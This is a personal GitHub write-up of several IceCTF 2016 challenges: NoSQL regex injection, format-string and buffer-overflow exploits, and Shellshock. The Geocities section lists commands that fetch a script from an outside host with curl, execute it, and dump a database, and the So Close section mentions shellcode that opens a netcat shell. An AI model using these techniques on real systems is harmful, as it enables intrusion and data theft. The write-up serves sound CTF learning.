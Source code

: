 # IceCTF-2016-WriteUp
My solutions to some of the challenges in IceCTF 2016. I should mention that this was my first CTF evah...

## A Strong Feeling

The solution I implemented was based on bruteforcing the string character by character. A better solution would have been to script some automatic tool to find the correct input. Whatever.

## Chained In

This was a NoSQL Injection (is this name a thing?). The script does, once again, a bruteforce attack of the admin password (AKA the flag) in a character by character fashion. This is done by using a regex using the `$regex` operator of MongoDB.

## Dear Diary

String format vulnerability. Just pipe the output of the script into the CTF executable and you can see the flag (among other random stuff from memory).

Script: `dear_shit.py`

## Geocities

I exploited shellshock on `index.cgi` to download the simple DB dumper I wrote. Then I executed it and got the flag from the DB.

Usage:
```
geocities_shellshock.sh "curl http://blabla/dumper.pl > /tmp/fuck.pl"
geocities_shellshock.sh "chmod +x /tmp/fuck.pl"
geocities_shellshock.sh "/tmp/fuck.pl \"SHOW TABLES;\""
geocities_shellshock.sh "/tmp/fuck.pl \"SELECT * FROM 47a6fd2ca39d2b0d6eea1c30008dd889;\""
```

It was fun to see that a some people actually went beyond the scope of the CTF and left some "I was here" notes inside the source code of the website.

## So Close

This was a buffer overflow in which we couldn't overwrite the return address of the function, so things got a bit more complicated. Since I'm a n00b and I didn't know any better, I ended up using a ROP gadget from libc in order to bypass ASLR (`call ecx`) and then tried to run the shellcode many times until I succeeded (kinda like... bruteforcing). If you solved it in a sane way please drop me a line.

I rewrote the script I used in order to make it totally automatic... it is now too verbose but I think it's pretty clear what it does:

1. Overwrite a single byte of the value that `ebp` is gonna take at the end of the vulnerable function
2. Put the shellcode in the buffer
3. Fill the rest of the buffer with the address of my `call ecx` gadget
4. Wait for the magic to happen (AKA getting `libc`'s address right)
5. ...
6. PROFIT!

My shellcode lanched the shellscript `./bb` which in turn runs netcat and `/bin/sh`. It is created by the python exploit at runtime.

# Conclusion

The CTF was fun even though I didn't have much time to commit to it. Feel free to ask me any question or point me to better solutions if you want :)
